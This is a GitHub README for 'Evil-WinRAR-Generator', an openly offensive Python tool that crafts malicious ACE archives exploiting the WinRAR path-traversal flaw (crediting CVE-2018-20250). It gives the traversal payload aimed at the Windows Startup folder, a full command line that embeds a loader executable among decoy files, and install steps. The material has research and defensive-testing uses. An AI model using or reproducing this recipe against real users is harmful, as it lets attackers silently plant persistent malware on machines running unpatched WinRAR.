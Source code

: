 # Evil-WinRAR-Generator
[![Python 3.6](https://img.shields.io/badge/python-3.6-yellow.svg)](https://www.python.org/downloads/release/python-360/)
 [![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://raw.githubusercontent.com/master/LICENSE) [![Twitter](https://img.shields.io/badge/twitter-@manulqwerty-blue.svg)](https://twitter.com/manulqwerty) 

Generator of malicious Ace files for WinRAR &lt; 5.70 beta 1
**Developed by [@manulqwerty - IronHackers](https://ironhackers.es).**

Usage
----
Help:

`./evilWinRAR.py -h`

Generate a malicius archive:
> Rar filename: evil.rar

> Evil path: C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\

> Evil files: calc.exe , l04d3r.exe

> Good files: hello.txt , cats.jpeg
```bash
./evilWinRAR.py -o evil.rar -e calc.exe l04d3r.exe -g hello.txt cats.jpeg -p 'C:\C:C:../AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

Instalation
----
You can download Evil-WinRAR-Generator by cloning the [Git](https://github.com/manulqwerty/Evil-WinRAR-Gen.git) repository:
	
```bash
git clone https://github.com/manulqwerty/Evil-WinRAR-Gen.git
cd Evil-WinRAR-Gen && pip install -r requirements.txt
chmod +x evilWinRAR.py
```
	
Evil-WinRAR-Generator works out of the box with [Python](http://www.python.org/download/) version **3.x** on any platform.

Screenshots
----
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/2-4.png)
![Screenshot](https://ironhackers.es/wp-content/uploads/2019/02/1-4.png)

Credits
----
https://github.com/droe/acefile

https://github.com/WyAtu/CVE-2018-20250
